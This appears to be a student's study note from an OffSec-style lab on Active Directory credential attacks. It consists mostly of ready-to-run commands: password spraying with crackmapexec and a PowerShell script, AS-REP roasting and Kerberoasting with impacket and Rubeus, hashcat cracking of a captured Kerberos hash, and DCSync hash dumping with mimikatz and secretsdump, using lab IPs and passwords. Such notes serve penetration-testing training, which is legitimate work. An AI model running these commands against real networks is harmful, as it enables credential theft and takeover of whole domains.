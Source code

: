 
# Pass attacks

## Pass policy
```
net accounts
```

![[Pasted image 20240521124727.png]]

## Pass spray from windows

```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```

![[Pasted image 20240521124816.png]]


## Pass spray with nxc, cme

```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

![[Pasted image 20240521125223.png]]

![[Pasted image 20240521125553.png]]


## AS-REP

```
impacket-GetNPUsers -dc-ip 192.168.162.70 -request corp.com/pete:Nexus123!
```

![[Pasted image 20240521130528.png]]

```
sudo hashcat -m 18200 '$krb5asrep$23$dave@CORP.COM:be4f988f238e5d724399cc356d7a00e7$8d6ade2dbebbb094f576eb73abc07f8509c6972d6e11277489b0b99e77e961373b9726c917357203ae615c6c23f70e4542a4dd31e818db2725de8154d6fe7a3ccec93f08a866718c1ebec09ade6f16449f6ff29561c505248288513d8c2fed13094b3c6fc444db5c0d87187204f5bc7aba59ac2420077101b5e19507624447aab5a70e1fe2a1492f4802505f8c0a6366e8a53b759640f689c917074658eaff025d2995ed3cac9fe64220910d28b5bae57cd5d5f18a8e93ffe6ad66a1357c61244f3a425687c599c269f8fa7d61ba011a6f4386220e932199e054f5cb23546d730e04e628' ~/Desktop/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Offsec loves base64.rule**


```
.\Rubeus.exe asreproast /nowrap
```

![[Pasted image 20240521130633.png]]


## kerberoast - SPN

TGS-REP

```
impacket-GetUserSPNs -dc-ip 192.168.162.70 -request corp.com/jeff:'HenchmanPutridBonbon11'
```

![[Pasted image 20240521151025.png]]

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


## DCsync

DC are synced to reduce availability

These three permission needed to perform this attack:
1. Replicating Directory Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes in Filtered Set

By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned

```
./mimikatz.exe

privilege::debug

lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\Administrator
```

Notably, we can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator Administrator.

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
This will give only one hash

```
impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.162.70
```

To dump all hash

![[Pasted image 20240521153201.png]]

